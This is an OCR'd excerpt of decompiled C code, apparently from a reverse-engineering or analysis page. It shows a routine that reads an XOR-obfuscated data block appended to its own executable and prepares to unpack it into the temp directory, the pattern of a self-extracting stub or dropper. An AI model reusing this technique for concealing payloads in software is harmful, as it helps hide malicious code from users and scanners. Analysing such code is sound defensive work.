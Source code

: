 ```c
  HINSTANCE hInstancec; // [esp+2B0h] [ebp+8h]
  const char *hInstanced; // [esp+2B0h] [ebp+8h]
  HINSTANCE hInstancee; // [esp+2B0h] [ebp+8h]

  lpText = 0;
  lpBuffer = 0;
  v32 = 0;
  GetModuleFileNameA(hInstance, Filename, 0x104u);
  FileA = CreateFileA(Filename, 0x80000000, 1u, 0, 3u, 0x80u, 0);
  v5 = FileA;
  if ( FileA == (HANDLE)-1 )
  {
    lpText = aCanTOpenFile;
    goto LABEL_47;
  }
  v33 = SetFilePointer(FileA, -8, 0, 2u);
  if ( v33 < 0x3E8 )
    goto LABEL_43;
  NumberOfBytesRead = 0;
  if ( !ReadFile(v5, Buffer, 8u, &NumberOfBytesRead, 0) || NumberOfBytesRead != 8 )
  {
    lpText = aFailedToReadDa;
    goto LABEL_45;
  }
  hInstancea = (HINSTANCE)Buffer[0];
  if ( Buffer[1] != -2103789659 || (int)Buffer[0] < 4 || (int)Buffer[0] >= (int)v33 )
  {
LABEL_43:
    lpText = aInvalidDataInT;
    goto LABEL_47;
  }
  lpBuffer = operator new(Buffer[0]);
  if ( !lpBuffer )
  {
LABEL_23:
    lpText = aInsufficientMe;
    goto LABEL_45;
  }
  v30 = 0;
  if ( SetFilePointer(v5, -8 - (_DWORD)hInstancea, 0, 2u) != -1
    && (v6 = lpBuffer, ReadFile(v5, lpBuffer, (DWORD)hInstancea, &v30, 0))
    && (HINSTANCE)v30 == hInstancea
    && *v6 == -2103789659 )
  {
    v7 = v6 + 1;
    if ( !GetTempPathA(0x104u, Filename) )
    {
      lpText = aCanTRetrieveTh;
      goto LABEL_45;
    }
    String2 = (char *)v7[1];
    hInstanceb = hInstancea - 3;
    v33 = *v7;
    v8 = (const char *)(v7 + 2);
    xor((_BYTE *)v7 + 8, (int)hInstanceb, (char)String2);
    if ( *((_BYTE *)v7 + 8) )
    {
      strcat(Filename, v8);
      v9 = &v8[strlen(v8) + 1];
    }
    else
    {
      wsprintfA(Source, "E_N%X", v33);
```